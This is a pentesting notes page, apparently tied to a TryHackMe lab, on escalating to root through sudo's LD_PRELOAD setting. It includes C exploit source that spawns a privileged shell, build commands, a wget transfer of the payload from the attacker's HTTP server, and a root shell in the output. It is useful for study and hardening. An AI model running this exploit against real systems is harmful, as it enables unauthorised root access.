 `LD_PRELOAD` is an environment variable, which is used to load the specified shared object (`.so` file) before loading any others.
Sometimes it can be specified in the `/etc/sudoers` file, which can be listed using `sudo -l`.

#### Checking for vulnerability
###### Note: If the `sudo -l` output is available, LinPEAS will flag the `LD_PRELOAD` if vulnerable. Usually, you need to enter the `sudo -l` with a password to see. If this isn't done, LinPEAS won't flag it.
First, run `sudo -l`, and check the output. If it contains `LD_PRELOAD`, it should be vulnerable.
#### Exploitation
Because the `LD_PRELOAD` environment variable loads any shared object specified, any code in the `_init()` function of the file will be executed with the sudo permissions.
Code (filename: `exploit.c`):
```
#include <stdio.h>  
#include <stdlib.h>  
#include <sys/types.h>
void _init() {
	unsetenv("LD_PRELOAD");  
	setuid(0);   // If the user specified to run is different from Sudo, use the UID of that user.
	setgid(0);   // If the group specified to run is different from Sudo, use the GID of that user.
	system("/bin/bash -p");
	}
```
Compiling:
```
gcc -fPIC -static -shared -nostartfiles -o exploit.so exploit.c
```

This can all be done locally, as long as the architecture and operating system of the target machine and the local machine are the same.

Finally, run the exploit:
```
sudo LD_PRELOAD=exploit.so COMMAND 
```
Note: make sure to specify the path to the `exploit.so` if it is not in the same directory as the command is being run from.

### Example
First, to check for vulnerability:
```
rick@Hijack:/tmp/test$ sudo -l
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
In the third line, the `env_keep+=LD_PRELOAD` exists, so it's vulnerable.
Then, to compile the code from [[#Exploitation]]:
```
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #nvim exploit.c
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #gcc -fPIC -static -shared -nostartfiles -o exploit.so exploit.c
exploit.c: In function ‘_init’:
exploit.c:6:3: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    6 |   setuid(0); // If the user specified to run is different from Sudo, use the UID
      |   ^~~~~~
exploit.c:8:3: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    8 |   setgid(0); // If the group specified to run is different from Sudo, use the
      |   ^~~~~~
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #ls exploit.so
exploit.so
```
Getting the binary from the local machine to the target:
```
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

rick@Hijack:/tmp/test$ wget http://10.8.1.167:8000/exploit.so
--2023-10-27 11:07:26--  http://10.8.1.167:8000/exploit.so
Connecting to 10.8.1.167:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18160 (18K) [application/octet-stream]
Saving to: ‘exploit.so’
exploit.so                                                  100%[=========================================================================================================================================>]  17.73K  --.-KB/s    in 0.03s   
2023-10-27 11:07:26 (687 KB/s) - ‘exploit.so’ saved [18160/18160]
```
Finally, to exploit:
```
rick@Hijack:/tmp/test$ sudo LD_PRELOAD=/tmp/test/exploit.so /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
$ id
uid=0(root) gid=0(root) groups=0(root)
```
